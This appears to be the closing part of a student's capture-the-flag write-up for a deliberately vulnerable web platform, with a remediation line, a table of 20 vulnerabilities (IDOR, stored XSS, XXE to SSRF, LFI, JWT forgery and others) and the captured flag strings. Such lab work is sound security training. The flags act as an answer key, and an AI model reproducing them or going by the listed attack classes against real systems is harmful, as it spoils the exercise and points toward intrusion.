- **Remediation:** threat-model up front; use CSPRNG single-use server-bound tokens; hash passwords with bcrypt/argon2; build anti-automation into auth flows; keep secrets/schema out of any reachable endpoint.
- *No flag (explain-only weakness).*

---

# Summary

| # | Vulnerability | Flag |
|---|---|---|
| [1](#first-vulnerability----bac-broken-access-control) | Broken Access Control / IDOR | `FLAG{1d0r_ur_pr0f1l3_1s_m1n3}` |
| [2](#second-vulnerability----file-upload-via-account-takeover-student-account) | Unrestricted File Upload | `FLAG{unr3str1ct3d_upl0ad_g0_brrr}` |
| [3](#third-vulnerability----stored-xss-cross-site-scripting) | Stored XSS (moderation bot) | `FLAG{xss_st0r3d_1s_n0t_4_f34tur3_w1l}` |
| [4](#fourth-vulnerability-----insecure-password-reset) | Insecure Password Reset (md5 token) | `FLAG{r3s3t_t0k3n_w4s_just_md5_lol}` |
| [5](#fifth-vulnerability----hidden-api-endpoint) | Hidden API / BOLA (`/api/grades`) | `FLAG{md5_1s_4_n4m3pl4t3_n0t_4_l0ck}` |
| [6](#sixth-vulnerability----mass-assignment) | Mass Assignment (role → cadet) | `FLAG{just_p4tch_y0ur_0wn_r0l3_lol}` |
| [7](#seventh-vulnerability----xxe-leading-to-ssrf) | XXE → SSRF (`/internal/config`) | `FLAG{d3fus3dxml_n3xt_spr1nt_pr0m1s3}` |
| [8](#eighth-vulnerability----privilege-escalation-via-pocketbase) | Privilege Escalation via PocketBase | `FLAG{th3_und3rsc0r3_sl4sh_kn0ws_th3_w4y}` |
| [9](#ninth-vulnerability----local-file-inclusion-or-known-as-lfi) | LFI / Path Traversal | `FLAG{d0t_d0t_sl4sh_4ll_th3_w4y_d0wn}` |
| [10](#tenth-vulnerability----csrf-cross-site-request-forgery) | CSRF — no Origin/Referer validation (`/profile/me/settings`) | `FLAG{csrf_4ny_0r1g1n_1s_w3lc0m3}` |
| [11](#eleventh-vulnerability----reflected-xss-newsletter) | Reflected XSS (Newsletter) | — (no flag) |
| [12](#twelfth-vulnerability----open-redirect) | Open Redirect | — (no flag) |
| [13](#thirteenth-vulnerability----weak--leaked-jwt-signing-secret--session-forgery) | Weak/leaked JWT secret → session forgery | — (no flag) |
| [14](#fourteenth-vulnerability----weak-passwords--exposed-md5-password-hints-cryptographic--auth-failure) | Weak passwords + exposed MD5 pw_hint | — (no flag) |
| [15](#fifteenth-vulnerability----pocketbase-filter-injection-nosql-style-injection) | PocketBase filter injection | — (no flag) |
| [16](#sixteenth-vulnerability----sensitive-data--schema-disclosure--bola) | Sensitive data / schema disclosure & BOLA | — (no flag) |
| [17](#seventeenth-vulnerability----security-misconfiguration-verbose-headers-non-httponly-cookie-exposed-admin-console) | Security misconfiguration (headers / cookie / admin console) | — (no flag) |
| [18](#eighteenth-vulnerability----vulnerable--outdated-components-owasp-a06) | Vulnerable & outdated components (A06 — defusedxml disabled) | — (no flag) |
| [19](#nineteenth-vulnerability----security-logging--monitoring-failures-owasp-a09) | Security logging & monitoring failures (A09 — fake telemetry, no rate-limit) | — (no flag) |
| [20](#twentieth-vulnerability----insecure-design-owasp-a04) | Insecure design (A04 — md5-by-design, predictable tokens, no anti-automation) | — (no flag) |

So in the end i got **10 flags** (6 mandatory + 4 bonus) and explained **20 vulnerabilities** (10 mandatory + 10 bonus). The subject asks for 19 vulns to exist on the platform overall, but only requires explaining 10 of them for mandatory + 5 more for bonus (15 minimum) — i went further and explained all 20 i found, doubling the bonus requirement, so both the flag count and the vuln-explaining requirement are cleared with room to spare.
